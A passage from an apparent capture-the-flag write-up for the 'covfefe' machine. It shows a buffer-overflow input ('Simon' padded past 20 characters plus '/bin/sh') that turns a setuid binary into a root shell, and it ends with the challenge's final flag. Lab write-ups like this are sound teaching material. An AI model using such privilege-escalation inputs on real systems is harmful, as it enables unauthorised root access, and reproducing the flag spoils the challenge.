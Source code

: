 When supplied with the argument "Simon" in the char authorized[] = "Simon"; section, if it matches what it expects, it then runs /usr/local/sbin/message, but what happens if we add more than 20 characters to this to overfill the buf[20]; section, followed by a system command? It's then executed in the context of the root user.

	`simon@covfefe:/root$ read_message 
	What is your name?
	Simon123456789012345/bin/sh
	Hello Simon123456789012345/bin/sh! Here is your message:
	#`

We get dropped into a new shell prompt.

	`# id
	uid=1000(simon) gid=1000(simon) euid=0(root) groups=1000(simon),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)`

w00t! We are now simon, but with root capabilities! euid=0(root)

	`cat flag.txt

	You did it! Congratulations, here's the final flag:
	flag3{das_bof_meister}`



